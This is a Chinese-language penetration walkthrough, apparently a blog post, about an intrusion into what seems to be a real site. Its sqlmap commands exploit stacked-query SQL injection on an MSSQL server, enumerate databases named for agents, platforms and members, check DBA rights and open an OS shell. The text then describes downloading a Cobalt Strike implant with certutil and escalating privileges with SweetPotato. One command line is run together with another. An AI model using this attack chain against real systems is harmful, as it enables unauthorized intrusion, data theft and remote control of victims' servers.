     python2 sqlmap.py -r post.txt --random-agent --batch

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091620.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091621.png)

  

发现是堆叠注入，MSSQL数据库，看看它的数据库

  * 

    
    
    python2 sqlmap.py -r post.txt --random-agent --batch --dbs

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091622.png)

  

从这里的数据库名称就可以判断，其中存在代理、平台、会员等数据库。接下来先不爆数据，先想办法拿shell。开始尝试利用os-shell
Getshell，在这之前先判断最近用户是否为DBA。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091623.png)

  

是DBA就直接os-shell，如果不是DBA，就没必要os-shell了。这里可以直接os-shell，成功执行命令。

  *   * 

    
    
    python2 sqlmap.py -r post.txt --random-agent --batch --is-dbapython2 sqlmap.py -r post.txt --random-agent --batch --os-shell

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091624.png)

  

那么接下来就是利用certutil远程下载CS马，执行上线（这里最好就查看一下进程，看看有没有存在杀软，但是因为接收回显信息比较慢，所以为了高效，我这里就直接下载执行了，然后根据回显结果去判断，如果上线不成功，那有两种情况，要么杀软拦截，要么不能出网）

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091625.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091626.png)

  

当前不是system权限，所以先进行提权，利用甜土豆进行提权并反弹到CS上。

  